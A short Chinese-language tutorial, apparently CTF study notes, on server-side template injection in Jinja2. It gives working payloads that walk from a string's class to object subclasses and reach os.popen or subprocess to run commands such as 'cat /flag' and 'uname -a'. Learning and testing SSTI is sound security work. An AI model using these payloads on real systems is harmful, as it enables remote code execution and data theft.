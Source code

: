 # SSTI 基于python的漏洞
***
大多数 Python Web 框架（如 Flask、Django、FastAPI）
都会用到模板引擎（Jinja2、Mako、Django Template 等）来把数据渲染到 HTML 上。

## 模版引擎会做的事情：

- 将模板文件（含有 =={{ ... }}、{% ... %}== 等占位符）解析成一段中间表示（AST）。

- 再把这段 AST 编译成 Python 可执行代码。

- <u>最终执行这段代码并输出字符串作为响应。</u>

而{{...}}中间的内容可能通过用户输入，那么此时如果不加以处理，可能造成任意代码执行(==RCE==)

## jinjia模版的一个例子 
> 1. 测试SSTI漏洞存在
```jinjia
{{7+7}}
```

> 2. 从字符串进入顶层基类
```jinjia
{{ ''.__class__       }}   → <class 'str'>  
{{ ''.__class__.__mro__ }}   → (<class 'str'>, <class 'object'>)  
{{ ''.__class__.__mro__[1] }} → <class 'object'>  
```

> 3. 通过遍历顶层基类object的subclasses找到Popen
```jinjia
{%for i in range(300)%}
{{i}} -> {{''.__class__.__mro__[1].__subclasses__()[i]}}
{%endfor%}
```

> 4. 利用Popen类实现==RCE==
```jinjia
{{''.__class__.__mro__[1].subclasses()[...].__init__.__globals__['os'].popen('cat /flag').read()}}
```

为什么要拿Popen？其实不一定，关键在于找到一个函数，在它初始化的那个模块里面有`import os`可以利用`__globals__`实现上面的过程。
例如**tojson、urlencode、xmlattr等等**，如何Popen不能用，就利用它们或者更多

那么除了`os`，其实`__globals__['subprocess'].check_output(['cat','/flag'])`也能实现相似的功能

__globals__[＇os＇].popen(＇uname -a＇).read()︸︸



